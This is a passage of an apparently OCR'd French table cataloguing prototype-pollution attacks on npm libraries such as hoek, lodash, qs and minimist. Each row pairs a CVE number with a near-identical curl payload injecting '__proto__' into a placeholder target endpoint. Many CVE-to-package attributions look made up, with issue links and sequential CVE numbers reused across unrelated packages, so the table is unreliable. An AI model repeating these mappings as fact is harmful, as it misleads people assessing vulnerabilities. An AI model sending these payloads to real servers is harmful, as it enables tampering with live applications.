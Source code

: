| 21 | CVE-2018-3750 | hoek <4.2.1 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/hoek` | Pollution du prototype, impact sur tous les objets | https://github.com/hapijs/hoek/issues/205 |
| 22 | CVE-2018-3722 | set-value <2.0.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/setvalue` | Pollution du prototype, impact sur tous les objets | https://github.com/jonschlinkert/set-value/issues/30 |
| 23 | CVE-2018-3723 | extend <3.0.1 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/extend` | Pollution du prototype, impact sur tous les objets | https://github.com/justmoon/node-extend/issues/147 |
| 24 | CVE-2018-16469 | safe-extend <1.1.1 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/safeextend` | Pollution du prototype, impact sur tous les objets | https://github.com/lukeed/safe-extend/issues/7 |
| 25 | CVE-2017-16028 | hoek <4.2.1 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/hoek` | Pollution du prototype, impact sur tous les objets | https://github.com/hapijs/hoek/issues/205 |
| 26 | CVE-2017-16137 | lodash <4.17.5 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/lodash` | Pollution du prototype, impact sur tous les objets | https://github.com/lodash/lodash/issues/4348 |
| 27 | CVE-2017-16138 | deep-extend <0.4.2 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/deepextend` | Pollution du prototype, impact sur tous les objets | https://github.com/unclechu/node-deep-extend/issues/64 |
| 28 | CVE-2017-16139 | extend <3.0.1 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/extend` | Pollution du prototype, impact sur tous les objets | https://github.com/justmoon/node-extend/issues/147 |
| 29 | CVE-2017-16140 | set-value <2.0.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/setvalue` | Pollution du prototype, impact sur tous les objets | https://github.com/jonschlinkert/set-value/issues/30 |
| 30 | CVE-2017-16141 | dot-prop <4.2.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/dotprop` | Pollution du prototype, impact sur tous les objets | https://github.com/sindresorhus/dot-prop/issues/54 |
| 31 | CVE-2017-16142 | object-path <0.11.4 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/objectpath` | Pollution du prototype, impact sur tous les objets | https://github.com/mariocasciaro/object-path/issues/97 |
| 32 | CVE-2017-16143 | qs <6.4.0 | `curl 'http://target/api?__proto__[polluted]=true'` | Pollution du prototype via paramètre GET | https://github.com/ljharb/qs/pull/200 |
| 33 | CVE-2017-16144 | minimist <1.2.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/minimist` | Pollution du prototype, impact sur tous les objets | https://github.com/minimistjs/minimist/issues/13 |
| 34 | CVE-2017-16145 | merge <1.2.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/merge` | Pollution du prototype, impact sur tous les objets | https://github.com/Kirill89/prototype-pollution-exploits/blob/master/merge/README.md |
| 35 | CVE-2017-16146 | deepmerge <2.1.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/deepmerge` | Pollution du prototype, impact sur tous les objets | https://github.com/jonschlinkert/merge-deep/issues/9 |
| 36 | CVE-2017-16147 | dot-object <1.0.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/dotobject` | Pollution du prototype, impact sur tous les objets | https://github.com/rhalff/dot-object/issues/119 |
| 37 | CVE-2017-16148 | hoek <4.2.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/hoek` | Pollution du prototype, impact sur tous les objets | https://github.com/hapijs/hoek/issues/205 |
| 38 | CVE-2017-16149 | deep-extend <0.4.1 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/deepextend` | Pollution du prototype, impact sur tous les objets | https://github.com/unclechu/node-deep-extend/issues/64 |
| 39 | CVE-2017-16150 | extend <3.0.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/extend` | Pollution du prototype, impact sur tous les objets | https://github.com/justmoon/node-extend/issues/147 |
| 40 | CVE-2017-16151 | set-value <1.0.0 | `curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"polluted":"yes"}}' http://target/api/setvalue` | Pollution du prototype, impact sur tous les objets | https://github.com/jonschlinkert/set-value/issues/30 |

---
